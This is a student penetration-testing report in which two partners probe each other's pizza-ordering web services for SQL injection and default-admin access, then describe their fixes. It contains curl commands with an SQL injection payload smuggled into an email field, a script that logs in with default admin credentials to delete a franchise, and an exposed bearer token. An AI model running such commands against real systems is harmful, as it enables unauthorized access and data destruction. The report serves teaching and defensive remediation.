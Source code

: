 # Penetration Attack Report
## Tessa Andersen and Lylah Liu

## 1. Self Attack
## Tessa Andersen
I tried doing an SQL attack. I found the vulnerability in the database code for updateUser and getUserFranchises
```javascript
const franchises = await this.query(connection, `SELECT id, name FROM franchise WHERE id in (${franchiseIds.join(',')})`);
```

```javascript
const query = `UPDATE user SET ${params.join(', ')} WHERE id=${userId}`;
```
Since both of these query commands are putting the parameters/strings directly into the query without any ? value to make sure there is no malicious code this could lead to an SQL injection attack.
I tried for hours to perform an SQL injection attack and just couldn't get the syntax right, but I did still change that code since I knew the vulnerability existed. For the user I changed it to be
```javascript
const query = `UPDATE user SET ${params.join(', ')} WHERE id=?`;
```

If the attack had succeeded it would have been a severity 1 because I could have used DROP TABLE users;

| Item           | Result                                                                         |
| -------------- | ------------------------------------------------------------------------------ |
| Date           | April 9, 2025                                                                  |
| Target         | https://pizza-service.tesessa.click                                            |
| Classification | Injection                                                                      |
| Severity       | 1                                                                              |
| Description    | SQL injection failed                                                           |  
| Corrections    | Sanitize user inputs.                                                          |

I also knew the vulnerability with the default admin user. I didn't perform any attacks with that, because it is pretty obvious what you could do. You could consistently add menu items, 
or delete all the franchises and stores. You could also use it to update all the users passwords and usernames and update the admin itself. I didn't perform this attack because it was obvious.
But I went and used the update user endpoint to udpate the admin user so my partner couldn't access it.

## Lylah Liu

| Item           | Result                                                                         |
| -------------- | ------------------------------------------------------------------------------ |
| Date           | April 10, 2025                                                                  |
| Target         | https://pizza-service.editnails260.click                                                    |
| Classification | Injection                                                                      |
| Severity       | 1                                                                              |
| Description    | SQL injection failed                                                           |  
| Corrections    | Use Parameters to sanitize user inputs.                                                          |

A SQL injection vulnerability was discovered in the updateUser function of database.js. 
The function was directly interpolating user inputs into a SQL query, exposing the system to injection risks.
```console
curl -X PUT https://pizza-service.editnails260.click/api/auth/1 \
-H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwibmFtZSI6IuW4uOeUqOWQjeWtlyIsImVtYWlsIjoiYWRtaW5Aand0LmNvbSIsInJvbGVzIjpbeyJyb2xlIjoiYWRtaW4ifV0sImlhdCI6MTc0NDMwMjI5NH0.OTZCjyJXvBYIAU1wynjRBr-wfHhnNnmEvvw5t5Ssz78" \
-d '{"email": "hacker.jwt.com\', name=\'admin\' --"}'
```
The bearer token was obtained via the browser’s inspection tab upon login. The injection attempts to elevate privileges by changing the user's role to admin.
```sql
UPDATE user SET email='test@example.com', name='admin'
```

I updated the updateUser function to use parameterized queries. This prevents SQL injection by ensuring user inputs are treated as data, not executable code.

## 2. Peer Attacks
## Tessa's attack on Lylah
For this attack I knew about the default admin login vulnerability. So what I did was I logged in as her admin user using a curl request, then I updated the user immediately so I could have full accses, I changed the username and password. This made it so Lylah couldn't user her own admin username. Then I added an item to the menu, and deleted a franchise. This was all I did, it basically made the point that I could access all the data with the default admin.

| Item           | Result                                                                         |
| -------------- | ------------------------------------------------------------------------------ |
| Date           | April 10, 2025                                                                 |
| Target         | https://pizza-service.editnails260.click                                       |
| Classification | Broken Access Control/Insecure Design                                          |
| Severity       | 2                                                                              |
| Description    | Deleted and added data with admin access                                       |  
| Corrections    | Change admin user to have more secure password                                 |

Here are the curl commands I used
```console
response=$(curl -s -X PUT $host/api/auth -d '{"email":"a@jwt.com", "password":"admin"}' -H 'Content-Type: application/json')
token=$(echo $response | jq -r '.token')
curl -X PUT $host/api/order/menu -H 'Content-Type: application/json' -d '{ "title": "Yummy", "description": "No topping, no sauce, just carbs", "image":"pizza9.png", "price": 0.0001 }'  -H "Authorization: Bearer $token"
curl -X DELETE $host/api/franchise/1 -H "Authorization: Bearer $token"
```
This added one item to the menu and deleted a franchise, here is a screenshot of the result
![Penetrationtest](penetrationTestingTessa.png)
This attack could lead to the attacker deleting all the franchises and updating all the users which could be a problem with in the code

## Lylah's attack on Tessa

| Item           | Result                                                                         |
| -------------- | ------------------------------------------------------------------------------ |
| Date           |Apri 10 2025                                                                 |
| Target         | https://pizza.tesessa.click/menu                                                    |
| Classification | Broken Access Control                                                                      |
| Severity       | 2                                                                              |
| Description    | Unauthorized access to administrative functionality               |
| Images         | ![PenetrationTest](peerTestLylahToTessa.png) added menu item |
| Corrections    | Enforce strong admin credentials and prevent bearer token exposure                                                     |

The admin account used a weak password (admin), which was easily guessed.
After logging in with the weak credentials, the admin’s authorization token was exposed in the browser's inspection tab.
Using the stolen token, I executed a PUT request to the admin-only menu update endpoint:
```console
curl -X PUT https://pizza-service.tesessa.click/api/order/menu
-H 'Content-Type: application/json'
-d '{ "title":"Students", "description": "No topping, no sauce, just carbs", "image":"pizza9.png", "price": 0.0001 }'
-H 'Authorization: Bear eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwibmFtZSI6IuW4uOeUqOWQjeWtlyIsImVtYWlsIjoiYWRtaW5Aand0LmNvbSIsInJvbGVzIjpbeyJyb2xlIjoiYWRtaW4ifV0sImlhdCI6MTc0NDMwMjI5NH0.OTZCjyJXvBYIAU1wynjRBr-wfHhnNnmEvvw5t5Ssz78'
```
## summary:
- Do not use default or weak passwords for admin accounts.
- Never expose bearer tokens or sensitive data in client-side JavaScript or browser tools.
- Enforce role-based access control on sensitive endpoints, sanitize sql queries.

